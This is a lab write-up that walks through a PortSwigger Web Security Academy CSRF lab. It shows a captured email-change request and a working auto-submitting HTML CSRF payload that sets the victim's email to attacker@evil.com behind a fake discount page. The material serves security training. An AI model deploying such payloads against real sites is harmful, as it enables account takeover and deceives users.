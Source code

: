 ## CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.
### Objective
	1. Craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.
	2. Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

### Credentials
	1.Username: wiener
	2.Password: peter

### Access the Lab:

 ```Copy
https://portswigger.net/web-security/learning-paths/csrf/csrf-how-to-construct-a-csrf-attack/csrf/lab-no-defenses#
```

## Step by step walkthrough of Lab

	1.We get a website with a page like this:
	
![[CSRF-01.png]]

	2.As we know the vulnerability lies in the update email function lets go directly to My account.

![[CSRF-02.png]]

	3.We have a login screen here lets use the default creds given to us.

![[CSRF-03.png]]
	4.Here whatever email we provide it will get changed if the session cookie is verified,lets check the burp request after requesting for an email change.


```Burp
POST /my-account/change-email HTTP/1.1
Host: 0a76007e047e4d3980ee0dd000150096.web-security-academy.net
Cookie: session=O5pjwIZh3kRuMmDnlREn568LPORTJgWw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a76007e047e4d3980ee0dd000150096.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: https://0a76007e047e4d3980ee0dd000150096.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: close

email=0mni@deuss.space
```

	5.Here we can see that the website is sending email as a POST request in body for changing the Email of that particular authenticated user.
	
![[CSRF-04.png]]
	6.Now Lets go to the exploit server.
![[CSRF-05.png]]
	7. Here everything is already set what we need to do is set the body parameter in such a way that when the user clicks on the crafted email it gets opened in their browser and the email changes to the attackers email.
```HTML
<html>
  <body>
    <h1>Limited Time Offer!</h1>
    <p>Click below to claim your exclusive discount!</p>
    
    <form id="csrfForm" action="https://0a3f009403a2207d8037031b00d60047.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@evil.com"/>
    </form>
    
    <script>
      // Auto-submit the form immediately
      document.getElementById('csrfForm').submit();
      
      // Optional: Show a fake loading screen to make it seem more legitimate
      setTimeout(function() {
        document.body.innerHTML = '<h1>Processing your request...</h1><p>Please wait while we apply your discount.</p>';
      }, 100);
    </script>
  </body>
</html>
```
	8.The above code snippet is what i have engineered to do the following:
		1.Excite the user by social engineering(Here i have used discount coupon)
		2.A Form submission using POST request to the site.
		3.Make the Form submission hidden using type='hidden'
		4.provide name=email for the POST element(Check burp req).
		5.value=attacker@evil.com(The email we want to use to change for victim).
		6.Auto submit form using javascript.
		7.Showing a "Processing your request" fake discount processing.

![[CSRF-06.png]]
	9.Now lets copy the payload after `<body> to </body>` and click on View exploit to check if it is even working or not.
